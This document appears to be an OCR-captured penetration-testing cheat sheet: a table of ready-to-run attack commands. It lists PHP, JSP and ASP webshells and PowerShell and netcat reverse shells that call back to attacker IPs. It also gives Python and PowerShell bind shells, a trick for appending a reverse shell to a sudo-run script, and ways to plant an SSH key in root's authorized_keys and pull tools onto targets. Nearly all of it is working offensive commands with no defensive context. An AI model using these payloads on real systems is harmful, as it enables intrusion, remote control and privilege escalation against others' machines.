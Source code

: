 |echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php|Create a webshell php file|
|<?php system($_REQUEST["cmd"]); ?>|webshell php script|
|<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>|webshell jsp script|
|<% eval request("cmd") %>|webshell asp script|
|curl [http://SERVER_IP:PORT/shell.php?cmd=id](http://server_ip:PORT/shell.php?cmd=id)|Execute a command on an uploaded webshell|
|Check 'Uploading a Web Shell' tab in notes for further on webshells||
|powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()|Reverse shell via powershell|
|python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'|Bind shell for python|
|powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();|Bind shell for powershell|
|echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.14.2 8443 >/tmp/f' \| tee -a example.sh|Append a reverse shell one-liner to the end of an existing .sh script and execute with sudo to get a reverse shell back as the root user|
|Privilege Escalation||
|Linux:<br><br>[https://gtfobins.github.io/](https://gtfobins.github.io/)<br><br>Windows:<br><br>[https://lolbas-project.github.io/](https://lolbas-project.github.io/)|list of binaries and commands and how they can be exploited for PE through sudo.|
|PowerUp.ps1<br><br>[https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)|(a PowerShell script to enumerate privilege escalation vectors)|
|./linpeas.sh|Run linpeas script to enumerate remote server|
|sudo -l|List available sudo privileges|
|sudo -u user /bin/echo Hello World!|Run a command with sudo|
|sudo su -|Switch to root user (if we have access to sudo su)|
|sudo su user -|Switch to a user (if we have access to sudo su)|
|ssh-keygen -f key|Create a new SSH key|
|echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys|Add the generated public key to the user|
|ssh [root@10.10.10.10](mailto:root@10.10.10.10) -i key|SSH to the server with the generated private key|
|cat .bash_history|Once you SSH into a system for first time, use this command to look at the history of the bash commands for clues|
|find / -type f -user root -perm -4000 2>/dev/null|Find SUID permissions, then use gftobins to find possible vectors on interesting finds|
|||
|Transferring Files||
|python3 -m http.server 8000|Start a local webserver|
|wget [http://10.10.14.1:8000/linpeas.sh](http://10.10.14.1:8000/linpeas.sh)|Download a file on the remote server from our local machine|
|curl [http://10.10.14.1:8000/linenum.sh](http://10.10.14.1:8000/linenum.sh) -o linenum.sh|Download a file on the remote server from our local machine|
|scp linenum.sh [user@remotehost:/tmp/linenum.sh](mailto:user@remotehost:/tmp/linenum.sh)|Transfer a file to the remote server with scp (requires SSH access)|
|base64 shell -w 0|Convert a file to base64|
|echo f0VMR...SNIO...InmDwU \| base64 -d > shell|Convert a file from base64 back to its original|
|md5sum shell|Check the file's md5sum to ensure it converted correctly|
|on Kali serve up a http python server like normal<br><br>on Windows target machine:<br><br>certutil -urlcache -f [http://10.10.14.5/MS10-059.exe](http://10.10.14.5/MS10-059.exe) ms.exe||
